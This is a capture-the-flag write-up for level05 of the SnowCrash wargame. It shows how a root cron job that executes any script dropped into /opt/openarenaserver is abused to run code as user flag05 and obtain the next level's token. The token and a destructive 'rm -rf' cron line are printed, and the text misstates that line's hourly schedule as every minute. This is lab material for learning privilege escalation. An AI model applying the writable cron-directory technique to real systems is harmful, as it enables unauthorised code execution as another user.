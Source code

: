# level05

## Cronjobs and init.rc shenanigans

For no reason whatsoever, let's try running this command:
```bash
level05@SnowCrash:~$ grep -R 'flag05' /var
/var/mail/level05:*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
/var/spool/mail/level05:*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

Wow, in an unrelated train of thought, why don't we take a look at `/var/spool/cron/crontabs/root`
```bash
# DO NOT EDIT THIS FILE - edit the master and reinstall.
# (/tmp/crontab.zk72ug/crontab installed on Sat Mar  5 20:18:51 2016)
# (Cron version -- $Id: crontab.c,v 2.13 1994/01/17 03:20:37 vixie Exp $)
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
0 * * * * rm -rf /tmp/* /var/tmp/*
```
Every 2 minutes, `su -c "sh /usr/sbin/openarenaserver" - flag05` is run, executing `sh /usr/sbin/openarenaserver` as `flag05`.

Every minute `rm -rf /tmp/* /var/tmp/*` is run.

So, what's inside of `/usr/sbin/openarenaserver`?
```bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
So this script executes whatever is inside of `/opt/openarenaserver` as a bash script with a limit of 5 seconds of cpu time, before removing it.

So, lets make our own bash script to get our flag
```bash
level05@SnowCrash:~ $ rm -f /tmp/flag; \
> printf '#!/bin/sh\ngetflag>/tmp/flag\n'>/opt/openarenaserver/snjort; \
> chmod +x /opt/openarenaserver/snjort; \
> while true; do if [ -f /tmp/flag ]; then cat /tmp/flag; exit; fi; done
Check flag.Here is your token : viuaaale9huek52boumoomioc
exit
level05@SnowCrash:~ $ su level06
Password: viuaaale9huek52boumoomioc
level06@SnowCrash:~ $ 
```
